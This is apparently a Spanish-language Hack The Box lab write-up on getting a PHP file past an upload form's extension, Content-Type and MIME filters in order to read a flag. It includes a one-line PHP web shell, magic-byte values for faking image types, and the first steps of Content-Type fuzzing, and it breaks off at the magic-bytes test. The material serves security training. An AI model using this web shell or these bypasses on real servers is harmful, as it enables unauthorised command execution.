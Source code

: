 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)




